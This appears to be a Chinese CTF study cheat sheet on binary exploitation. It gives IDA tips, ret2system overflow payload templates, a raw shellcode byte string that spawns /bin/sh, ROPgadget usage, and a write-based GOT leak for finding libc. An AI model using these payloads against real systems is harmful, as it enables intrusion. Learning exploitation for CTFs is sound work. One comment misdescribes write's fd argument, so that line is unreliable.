 # PWN从入门到入土
### hint
- ida快捷键 
  - 提取数据 shift + E
  - 查找strings alt + T
  - 打开strings窗口 shift + F12
- 对于合起来的长字符，右键点一下data会按字节转换成几个
- db: 1个字节单元，dw: 2个字节单元，dd: 4个字节单元
- system函数：何时需要填补return地址
  - 第一种，溢出后的返回地址是system的地址，也就是plt表中system的地址   
    `payload = 'a' * (0x88 + 4) + p32(system_addr) + p32(return_addr) + p32(binsh_addr)`  
  - 第二种，溢出后的返回地址是call system的地址，这是程序中出现过的调用system的地址   
    `payload = 'a' * (0x88 + 4) + p32(system_addr) + p32(binsh_addr)`  
- 查找函数在plt表中的地址：  
  - `$ objdump -d -j .plt ./pwn | grep system`  
- 当plt表中没有system函数时，可以尝试shellcode（一串可以返回shell的机器指令码）
    ```python
    context.os='Linux'
    context.arch='amd64'
    shellcode = asm(shellcraft.sh())
    # 64位系统也可以直接用下面这个
    shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
    ```
- 查找ret地址：
  - `ROPgadget --binary pwn --only "pop|ret" `
- libc
  - 题目给了libc： `libc=ELF('libc-2.23.so')`  
    题目没给libc，用LibcSearcher自动识别一下：`libc=LibcSearcher('write',write_addr)`  
  - 查找基地址
    ```python
    elf = ELF("./pwn")
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    ```
  - write函数泄露地址  
    函数原型：  
    ```c
    // weite 和 read 的第一个fd参数是模式选择，一般填1就行了
    ssize_t write(int fd, const void * buf, size_t count);
    ssize_t read(int fd, void *buf, size_t count);
    // put只有一个字符串参数，但是记得在栈里面要先填函数返回地址
    int puts(const char *s);
    ```  
    payload：首先将write_plt作为栈上的调用地址，main作为write_plt函数的返回地址方便下一步循环，1为write的写模式，写入的内容为write_got，写入长度为4字节（32位）  
    ```python
    payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
    write_addr=u32(p.recv(4))
    ```  
    原理：由于程序中有write函数，因此write装载在plt表中，可以直接用write_plt调用。在程序未调用write前，不会将write装载到got表里，因此需要先调用一次write_plt，装载之后got表里就存储了write的真实地址，再打印这个真实地址出来即可计算基地址。
